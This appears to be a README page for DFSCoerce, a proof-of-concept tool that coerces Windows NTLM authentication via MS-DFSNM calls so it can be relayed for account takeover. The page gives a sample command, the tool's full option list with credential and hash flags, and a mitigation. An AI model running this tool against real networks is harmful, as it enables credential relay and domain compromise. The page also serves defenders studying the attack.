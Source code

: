 # DFSCoerce

MS-DFSNM abuse (DFSCoerce)
A New NTLMv2 Relay Attack for Complete Account Takeover.

## Date

2022-06-22 POC on github.

## Synopsis

PoC for MS-DFSNM coerce authentication using `NetrDfsRemoveStdRoot` and `NetrDfsAddStdRoot` (found by @xct_de) methods.

## Mitigation

Disable the deprecated NTLM authentication where possible and use the Extended Protection for Authentication (EPA).

## Example

```bash
$ python3 dfscoerce.py -u mane -d domain.local LHOST RHOST
```

## Tools Options

```bash
$ python3 dfscoerce.py -h
usage: dfscoerce.py [-h] [-u USERNAME] [-p PASSWORD] [-d DOMAIN] [-hashes [LMHASH]:NTHASH]
                    [-no-pass] [-k] [-dc-ip ip address] [-target-ip ip address]
                    listener target

DFSCoerce - PoC to coerce machine account authentication via MS-DFSNM NetrDfsRemoveStdRoot()

positional arguments:
  listener              ip address or hostname of listener
  target                ip address or hostname of target

options:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        valid username
  -p PASSWORD, --password PASSWORD
                        valid password (if omitted, it will be asked unless -no-pass)
  -d DOMAIN, --domain DOMAIN
                        valid domain name
  -hashes [LMHASH]:NTHASH
                        NT/LM hashes (LM hash can be empty)
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file
                        (KRB5CCNAME) based on target parameters. If valid credentials cannot be
                        found, it will use the ones specified in the command line
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part
                        (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was
                        specified as target. This is useful when target is the NetBIOS name or
                        Kerberos name and you cannot resolve it
```

## Related Links

[GitHub - Wh04m1001/DFSCoerce](https://github.com/Wh04m1001/DFSCoerce)
